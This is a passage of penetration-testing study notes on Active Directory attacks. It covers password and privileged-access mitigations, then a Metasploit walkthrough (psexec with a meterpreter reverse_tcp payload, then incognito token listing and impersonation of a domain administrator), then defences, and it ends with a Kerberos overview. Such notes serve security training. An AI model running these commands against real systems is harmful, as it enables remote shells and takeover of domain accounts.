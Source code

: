     - Limit who is a local administrator (least privilege)
  - Utilize strong passwords
    - The longer the better (>14 characters)
    - Avoid using common words
    - I like long sentences
  - Privilege Access Management (PAM)
    - Check out/in sensitive accounts when needed.
    - Automatically rotate passwords on check out and check in
    - Limits pass attacks as hash/password is strong and constantly rotated.

**Token Impersonation Overview**
- Tokens : Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.
- Types
  - Delegate : Created for logging into a machine or using Remote Desktop
  - Impersonate : "non-interactive" such as attaching a network drive or a domain logon script

**Token Impersonation with Incognito**
  - `msfconsole`
  - `use exploit/windows/smb/psexec`
  - `set RHOSTS, SMBDomain, SMBPass and SMB User`
  - `show targets` : Choose Native Upload
  - `set target 2`
  - `set payload windows/x64/meterpreter/reverse_tcp`
  - `set lhost eth0`
  - `run`
- Meterpreter session will be created. We can load incognito from meterpreter shell.
  - `load incognito`
  - `help` - It will show incognito command
  - `list_tokens -u` : List the tokens, we can impersonate the listed users.
  - `impersonate_token marvel\\administrator`
  - `shell`
  - `whoami`

**Mitigation Strategies**
- Limit user/group token creation permissions
- Account tiering : Domain Administrator should login into the machines that they need to access which should only be domain controllers. If for some reasons that domain administrator logs into a user computer or a server and that user computer or server gets compromised. We can impersonate that token if we can compromised the domain controller.
- Local admin restriction : If users are not local admins on their computers we cannot get a shell on that computer with their account that prevents us from gettig onto the computer and utilizing this kind of attack.


**Kerberos Overview**
- Kerberos is a network authentication protocol used in Windows Active Directory.
- In this process, Clients connect and interact with the network authentication service, the client obtains tickets from the Key Distribution Center (KDC), After obtaining the ticket from the KDC, A client may use the ticket in order to communicate with the Application Servers.
- Kerberos runs on Port 88 (UDP) by default.
- Some terms to be cleared:
  - Client : A normal user who wants to access a service.
  - Key Distribution Center (KDC) : The most important component which plays the main role in the Authentication Process.
  - Application Server : Any Application Service such as SQL
  - TGT (Ticket Granting Ticket) : Ticket needed for requesting TGS from KDC, it is obtained from the KDC only.
  - TGS (Ticket Granting Service) : Ticket needed for authenticating against a particular service which is server account hash.
  - SPN (Service Principle Name) : SPN is an identifier for each service instance, it is one of the key components in the process of authentication.
